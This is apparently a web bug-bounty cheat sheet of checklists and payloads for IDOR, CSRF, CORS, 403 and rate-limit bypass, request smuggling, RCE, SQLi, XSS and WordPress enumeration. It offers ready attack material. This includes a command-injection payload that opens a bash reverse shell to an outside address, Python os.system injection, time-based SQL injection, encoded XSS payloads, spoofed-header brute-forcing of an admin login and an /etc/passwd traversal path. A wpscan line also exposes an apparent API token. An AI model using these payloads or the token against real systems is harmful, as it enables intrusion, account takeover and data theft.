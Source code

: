 <details>
	<summary>IDOR</summary>
	
    1- Look for id everywhere
    
    2- Play with hash/encoded values
    
    3- Change The ID's in the request 
    
    4- Upload the profile photo for another user
    
    5- Try change/View data of another user
    
    6- Do something with your email then change it in Burp

    7- Add parameter IDs to requests that don’t have them 

    8- Try replacing parameter names

    9- Try changing the requested file type 
    	GET /user_data/2341 --> 401 Unauthorized
	GET /user_data/2341.json --> 200 OK
    
    10- Try using an array {“id”:19} → {“id”:[19]}

    11- Wildcard ID /api/users/*

    12- check for session cookies if has httponly flag

    13- use the inspector of Burp Repeater to play with id's

    14- use https://jwt.io

    15- create two accounts and save both jwt data and try change between them

    16- detect each cookie and see where it being used

    17- Gather POST & GET and test every CRUD

    18- change HTTP method
	GET /users/delete/victim_id  ->403
	POST /users/delete/victim_id ->200

    19- 


 
  
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Broken Access Control</summary>

	1- Test some Graphql operations with different user roles and see what this operation do
 	2- Check the role of every user and try upgrade your role by urself
  	3- try any unauth behavior like :
   		- member delete admin
     		- member send invites using the invite request
       		- member outside the comapny try any action 
	------------------------------------------------
 	- Wildcard -> GET /users/id -> GET /users/*
	------------------------------------------------
	- Content-Type: application/xml 
	- Content-Type: application/json
	------------------------------------------------
 	- 




 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CSRF</summary>

	Generate POC using LazyCSRF in BurpSuite
	=================================================
	FIRST SCENARIO: 
  	1- Login as Attacker and intercept any function like change email, pass, logout...etc
   	2- Genereate CSRF poc with that reqeust
    	3- login as Victim in another browser
     	4- open the CSRF poc in victim browser if did the function then it's a bug
  	
   	=================================================
	SECOND SCENARIO: The Token is tied to non-session cookie
 		if the token tied to an attribute in the request 
 	1- intercept the request of user1 change email,username..etc
  	2- Genrate POC 
   	3- get the CSRF key and attribute value of user2
    	4- 

    	=================================================
   	- Remove the token and leave the parameter empty
  	- Try use another user CSRF token
   	- Change the request method to get and remove the token
    	- Add Ayhaga to the real CSRF token 
     	- Dynamic chars in CSRF token manipulate
	- try delete referrer
 	- Referrer: https://target.com/https://evil.com
  	

 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CORS</summary>

	- Try manipulate the origin header -> Origin:attacker.com or Origin:null or Origin:attacker.target.com or Origin:target.attacker.com
 		- If origin is reflected in response means the target is vuln to CORS

	- 
  
</details>

-----------------------------------------------------------------------------

<details>
	<summary>403-bypass</summary>


	X-Forwarded-Host: attacker.com
	X-Forwarded-Port: 443
	X-Forwarded-Scheme: https
	Origin: null
	nullOrigin: [siteDomain].attacker.com
	X-Frame-Options: Allow
	X-Forwarded-For: 127.0.0.1
	X-Client-IP: 127.0.0.1
	Client-IP: 127.0.0.1
	Proxy-Host: 127.0.0.1
	Request-Uri: 127.0.0.1
	X-Forwarded: 127.0.0.1
	X-Forwarded-By: 127.0.0.1
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-For-Original: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Forwarded-Server: 127.0.0.1
	X-Forwarder-For: 127.0.0.1
	X-Forward-For: 127.0.0.1
	Base-Url: 127.0.0.1
	Http-Url: 127.0.0.1
	Proxy-Url: 127.0.0.1
	Redirect: 127.0.0.1
	Real-Ip: 127.0.0.1
	Referer: 127.0.0.1
	Referrer: 127.0.0.1
	Refferer: 127.0.0.1
	Uri: 127.0.0.1
	Url: 127.0.0.1
	X-Host: 127.0.0.1
	X-Http-Destinationurl: 127.0.0.1
	X-Http-Host-Override: 127.0.0.1
	X-Original-Remote-Addr: 127.0.0.1
	X-Original-Url: 127.0.0.1
	X-Proxy-Url: 127.0.0.1
	X-Rewrite-Url: 127.0.0.1
	X-Real-Ip: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	X-Custom-IP-Authorization: 127.0.0.1
	X-Originating-IP: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Original-Url:
	X-Forwarded-Server:
	X-Host:
	X-Forwarded-Host:
	X-Rewrite-Url:

 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Logic Bugs</summary>
	
    1- Try change the price or quantity of item
    
    2- Multiple booking for one room
    
    3- Place order without verify stock level
    
    4- Use coupons or bounus more than one time
    
    5- Check the difference bettween Front-end & Burp request
    
    6- Try creating more than one from the same block 

    7- Check for all posible IF statements and try to bypass it

    8- A user gains access to restricted features they shouldn't have access to.

    9- Try access files after deletion using the link of this file 

    10- Make changes in the source code disabled -> enabled / hidden -> flex

    11- Delete comment with report https://shahjerry33.medium.com/business-logic-errors-a-new-look-3b18d9c2a12f

    12- 
      
		
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Open Redirect</summary>

	- Look for: 
 		redirect=, redir=, next=, url=, u=,
   		dest=, destination=, forward=, return=, 
   		RelayState=, goto=, callback=, continue=

	- Dorks: 
 		site:example.com inurl:redirect=
		site:example.com inurl:url=
		site:example.com inurl:next=
		site:example.com inurl:%3Dhttp
		site:example.com inurl:%3D%2F
		inurl:"redirect=" OR inurl:"url=" OR inurl:"to=" OR inurl:"out="
		site:target.com inurl:"redirect=" OR inurl:"url=" OR inurl:"next=" OR inurl:"to="
		site:target.com filetype:js intext:"redirect" OR intext:"window.location"
		inurl:"redirect.php?url=" OR inurl:"out.php?to=" OR inurl:"go.php?url="
		site:target.com inurl:"search?q=" "redirect"
		site:target.com ext:conf OR ext:ini OR ext:log "redirect"
		site:target.com inurl:"shorturl=" OR inurl:"go=" OR inurl:"r="
		site:target.com inurl:"api" "redirect_uri="
		site:target.com intext:"has been moved" OR intext:"redirecting to"
		site:github.com "redirect_uri=" "target.com"
		https://target.com/redirect.php?url=https://evil.com


	


     
  
</details>


-----------------------------------------------------------------------------

<details>
	<summary>HTTP Request Smuggling</summary>

	https://deepstrike.io/blog/what-is-http-request-smuggling

    Attack Types: 
    -------------
    
	1- CL.TE: The attacker adds both CL-[Content-Length] & TE-[Transfer-Encoding]
 	        --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: vuln.target.com
	     	|	Content-Length: 6
	       	|	Transfer-Encoding: chunked
		|	
	  	|	0\r\n
	    	|	\r\n
	      	|	G
		--------------------------------
	- Front-end deal with CL &&& Back-end deal with TE
	RESPONSE : then the victim do a normal request but the last content appears in this request
 		--------------------------------
	   	|	GPOST / HTTP/1.1
	   	|	Host: normal.target.com
		--------------------------------

	------------------------------------------------------------------------------------------------------------------
	2- TE.CL :

		 --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: vuln.target.com
	     	|	Content-Length: 3
	       	|	Transfer-Encoding: chunked
		|	
	  	|	8
	    	|	SMUGGLED
	      	|	0
		--------------------------------
 
 	- Fron-end deal with TE && Back-end deal with CL
  	RESPONSE: 
   		--------------------------------
	   	|	SMUGGLED
     		|	0
     		|	POST / HTTP/1.1
	   	|	Host: normal.target.com
		--------------------------------
	------------------------------------------------------------------------------------------------------------------

    Exploits: 
    ---------	
     1- Open Redirect:
       		 --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: victim.com
	     	|	Content-Length: 117
	       	|	Transfer-Encoding: chunked
		|	
	  	|	0 
    		|	
	    	|	GET / HTTP/1.1
      		|	Host: attacker.com
	 	|	Content-Type: application/x-www-form-urlencoded
   		|	Content-Length: 10
      		|
	      	|	x=
		|
		--------------------------------

 	---------------------------------------------------------------------------------



 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>RCE</summary>

	1- Injection in json file 
 		{
   		   "username":" `touch ayfile.txt` ",
		   "password":"test"
		}
  	We establish a connection using ntcat then inject command in the json to get this connection
     --------------------------------------------------------------------------------------------------
     2- GET /calculator?calc="__import__('os').system('ls')"
     --------------------------------------------------------------------------------------------------
     3- use ; 
     		GET /download?url="google.com;bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
     --------------------------------------------------------------------------------------------------
     4- GET /vulnerable-endpoint?cmd=whoami
	GET /vulnerable-endpoint?cmd=sleep+5
  
		
     
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Race Condition</summary>

    1- 
 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>GraphQL API</summary>

	graphw00f Tool 
  	InQL Tool in BurpSuite
 	Clairvoyance Tool to brute-force GraphQL
 
 
 	/graphql
	/graphiql
	/graphql.php
	/graphql/console
	/api
	/api/graphql
	/graphql/api
	/graphql/graphql
	/v1/graphql
	/v2/graphql
	/graphql/v1
	/graphql/v2
	/gql
	/graphql-playground
	/playground
	/altair
	/query
	/graphql/query
	/graphql-explorer
	/api/v1/graphql
	/api/v2/graphql
	/public/graphql
	/private/graphql
	/internal/graphql 




 

</details>

-----------------------------------------------------------------------------

<details>
	<summary>Rate Limit</summary>

 	rate limit 
	1- no rate limit on login page 
	2- no rate limit on internal password
	3- no rate limit on sending reset password link 
	4- no rate limit on OTP or 2FA => account takeover
	5- no rate limit on contact us page 
	6- no rate limit on comments 
	7- no rate limit on reports of comments
	8- no rate limit on port 22
 	9- no rate limit on create users account lead to massive accounts created
	
	------------
	bypass rate limit by adding headers 
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	------------------------------------------
	POST /login.php HTTP/1.1
	Host: target.com
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	
	username=admin&password=$fuzz$
	-------------------------------------------
	429 => 403 
	bypass rate limit 
	
	ffuf -u https://example.com -w wordlist.txt --data "username=admin&password=FUZZ"  -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1"`
	
	403 


</details>

-----------------------------------------------------------------------------


<details>
## <summary>check sql injection in php</summary>
    
    1- first let's gather parameters 
    # arjun -i php.txt | tee -a parameters.txt
    2- after knowing parameters like id then full url would be 
    https://example.com/file.php?id=*
    3- use sqlmap 
    # sqlmap -u "~~https://example.com/file.php?id=*~~" --dbs --banner --batch --random-agent
    
 </details>   


-----------------------------------------------------------------------------


    
<details>
## <summary>SQLI</summary>

    id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'

	username:’ — ‘/” — “
	password:’ — ‘/” — “
</details>


-----------------------------------------------------------------------------

<details>
	<summary>XSS</summary>

 
	
	dalfox url "https://target.com/?q=search" -o dalfox_xss.txt
	dalfox file allParam.txt --waf-evasion --user-agent 'Mozilla/5.0 (x11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 			Safari/537.36' --proxy 'http://127.0.0.1:8080' --timeout 30 -b 'payload from xss.report' -o xssProbability.txt --deep-domxss 

	-----------------------------------------------------------------------------------------------
	
	echo "domain.com" | gau | kxss | grep ">"
	
	paramspider --domain domain.com
	paramspider --domain https://www.domain.com --exclude woff,css,png,svg,jpg --output t.txt
	
	echo "sub.domain.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe
	
	-----------------------------------------------------------------------------------------------
	
	cat domain.txt | kxss | grep "\" ' < >" | tee kxss.txt
	
	cat domain.txt | kxss

	-----------------------------------------------------------------------------------------------

	Double Decode :
 		%2527%2520onmouseover%253D%2527alert%25281%2529%2527%2520
   		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520autofocus%253D%2527
     		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520
       		%2527%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E

	-----------------------------------------------------------------------------------------------
  	- Click "Live chat" and send a chat message. 
	Itercept the request 
	edit message to <img src=1 onerror='alert(1)'>
	   		
    	-----------------------------------------------------------------------------------------------



</details>



------------------------------------------------------------------------------------------------------

<details>
## <summary>hacking WordPress</summary>
    
    
    wpscan --url [https://target.com](https://target.com/) --disable-tls-checks --api-token zBsi404GGCMKGzTraiEsSsQsFXCsUVWmaDUsn3EPuKc -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
    wordpress usernames exposure :
    /wp-json/wp/v2/users
    /author-sitemap.xml
    /wp-content/debug.log
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
    	
    /wp-login.php?action=register
    /wp-json/?rest_route=/wp/v2/users/
    /wp-json/?rest_route=/wp/v2/users/n

</details>

-----------------------------------------------------------------------------



<details>
	<summary>PHP</summary>
</details>



-----------------------------------------------------------------------------

<details>
	<summary>Subdomain Takeover</summary>

	- subjack -w <Subdomain List> -o results.txt -ssl -c fingerprints.json
 	- subzy 

   	
 
</details>

-----------------------------------------------------------------------------

